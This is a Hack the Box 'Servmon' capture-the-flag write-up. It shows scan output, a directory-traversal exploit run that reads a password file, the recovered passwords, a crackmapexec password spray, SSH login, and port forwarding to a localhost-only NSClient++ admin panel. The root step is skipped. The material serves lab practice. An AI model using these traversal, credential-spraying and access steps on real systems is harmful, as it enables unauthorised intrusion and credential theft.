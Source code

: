 +++
title = "Hack the Box: Servmon"
date = 2023-02-05
description = "Hack the Box: Servmon"
tags = [
    "Hack the Box",
    "Write-up"
]
+++

# Servmon

## Enumeration

### Nmap

```
# sudo nmap -sV -sC -O -nvv 10.10.10.184 -Pn

PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           syn-ack ttl 127 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnC92+BCplDo38VDQIZzb7V3HN/OucvxF0VMDDoYShdUrpDUW6JcSR/Zr6cADbHy7eDLw2O+WW+M4SzH7kfpbTv3HvJ0z8iOsRs2nUrUint4CR/A2vYA9SFOk18FU0QUS0sByBIlemU0uiPxN+iRCcpFhZDj+eiVRF7o/XxNbExnhU/2n9MXwFS8XTYNeGqSLE1vV6KdpMfpJj/yey8gvEpDQTX5OQK+kkUHze3LXLyu/XVTKzfqUBMAP+IQ5F6ICWgaC1a+cx/D7C/aobCbqaXY+75t1mxbEMmm1Wv/42nVQxcT7tN2C3sds4VJkYgZKcBhsE0XdJcR9mTb1wWsg9
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMToH2eB7rzpMZuvElpHYko/TXSsOfG8EXWQxmC/T4PCaAmVRDgJWEFMHgpRilSAKoOBlS2RHWNpMJldTFbWSVo=
|   256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILbqSRVLRJFVNhD0W0C5xB7b3RoJZZKdM+jSGryFWOQa
80/tcp   open  http          syn-ack ttl 127
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
5666/tcp open  tcpwrapped    syn-ack ttl 127
6699/tcp open  napster?      syn-ack ttl 127
8443/tcp open  ssl/https-alt syn-ack ttl 127
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     iday
|     :Saturday
|     workers
|_    jobs
| http-methods: 
|_  Supported Methods: GET
| http-title: NSClient++
```

Connect to tcp, cd /users/ find files there giving clues/tips.

[https://github.com/AleDiBen/NVMS1000-Exploit](https://github.com/AleDiBen/NVMS1000-Exploit "https://github.com/AleDiBen/NVMS1000-Exploit")
[https://docs.nsclient.org/](https://docs.nsclient.org/ "https://docs.nsclient.org/")

```
# python3 nvms.py 10.10.10.184 /users/Nathan/Desktop/Passwords.txt
[+] DT Attack Succeeded
[+] File Content

++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```

Put those password in a file dans pass it in crackmapexec:

```
# crackmapexec smb 10.10.10.184 -u Nadine -p pass-servmon.txt
...
SMB         10.10.10.184    445    SERVMON          [+] SERVMON\Nadine:L1k3B1gBut7s@W0rk
...
# crackmapexec smb 10.10.10.184 -u Nathan -p pass-servmon.txt
```

We can see we have Nadine has a read access to a share

```
# crackmapexec smb 10.10.10.184 -u Nadine -p L1k3B1gBut7s@W0rk --shares
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:SERVMON) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] SERVMON\Nadine:L1k3B1gBut7s@W0rk 
SMB         10.10.10.184    445    SERVMON          [+] Enumerated shares
SMB         10.10.10.184    445    SERVMON          Share           Permissions     Remark
SMB         10.10.10.184    445    SERVMON          -----           -----------     ------
SMB         10.10.10.184    445    SERVMON          ADMIN$                          Remote Admin
SMB         10.10.10.184    445    SERVMON          C$                              Default share
SMB         10.10.10.184    445    SERVMON          IPC$            READ            Remote IPC
```

Let’s try to SSH with her credentials:

```
# ssh Nadine@10.10.10.184
# cd Desktop
# type user.txt
34c11d0537a6c54eaedaf0e70fa41a21
```

And we get the user hash.

```
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

NSClient++ is vulnerable to a PE: [https://www.exploit-db.com/exploits/46802](https://www.exploit-db.com/exploits/46802 "https://www.exploit-db.com/exploits/46802").

`Type nsclient.ini` allow only localhost to access to the admin dashboard `allowed host = 127.0.0.1` let’s do a port forwarding to abuse that. Launch ssh service `ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184` and then open `https://127.0.0.1:8443`. C:\Users\Administrator\Desktop>type root.txt type root.txt 65b04c7b20598ff912c3dce1d317d579

[https://fdlucifer.github.io/2020-04-23-ServMon.html](https://fdlucifer.github.io/2020-04-23-ServMon.html "https://fdlucifer.github.io/2020-04-23-ServMon.html")
